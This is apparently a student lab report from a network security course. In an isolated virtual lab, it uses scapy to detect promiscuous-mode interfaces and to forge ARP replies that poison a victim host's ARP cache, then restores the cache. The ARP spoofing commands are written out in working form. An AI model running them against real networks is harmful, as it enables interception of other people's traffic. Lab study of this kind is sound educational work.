

# 第四章 网络监听

## 实验目的

完成基于`scapy`工具的网络监听基本操作

## 实验步骤

### 网络拓扑


如图所示网络中的节点基本信息如下：

**攻击者**


**受害者**



**网关**


|                    | 物理地址          | IP地址         |
| ------------------ | ----------------- | -------------- |
| 攻击者主机（Kali） | 08:00:27:ea:85:64 | 172.16.111.138 |
| 受害者主机（XP）   | 08:00:27:c3:7a:c4 | 172.16.111.118 |
| 网关（Debian）     | 08:00:27:f0:63:c9 | 172.16.111.1   |

### 实验准备

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 

```shell
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```


### 实验一：检测局域网中的异常终端

```shell
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```


```shell
# 在攻击者主机上开启 scapy
scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.118")
```


```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串

# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```


```shell
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.118")
```


```shell
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```


### 实验二：手工单步“毒化”目标主机的 ARP 缓存

在攻击者主机上的 `scapy` 终端进行投毒操作

```shell
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```


```shell
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```


```shell
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.118
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.118", hwdst="08:00:27:ea:85:64")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```


查看arp表变化，毒化成功


回到攻击者主机上的 scapy 交互式终端继续执行命令

```shell
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:f0:63:c9", pdst="172.16.111.118", hwdst="08:00:27:c3:7a:c4")
sendp(restorepkt1, count=100, inter=0.2)
```


此时在受害者主机上准备“刷新”网关 ARP 记录。

```shell
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


## 实验总结

- 在攻击者主机上开启scapy时记得用管理者权限（sudo），否则后续命令运行会显示没有权限

  

- 在攻击者主机上构造好ARP请求包并发送到网关却无法收到回复

  

  导致后续对受害者arp表投毒也无法实现。查看了老师同学的作业自己在arp请求包的构造上并没有区别，只能是网络上出问题，后来才发现攻击者主机和网关还保持着NatNetwork的连接，猜测是因为这个原因。

  

  手动取消网卡1的启用后再次发送arp请求包，显示可以收到回复

  

## 参考资料

- [课本-第四章实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [2022-ns-public-Xuyan-cmd](https://github.com/CUCCS/2022-ns-public-Xuyan-cmd/tree/9fe5000d4d1a146b6bf1bf2042cd7cace3c781ad)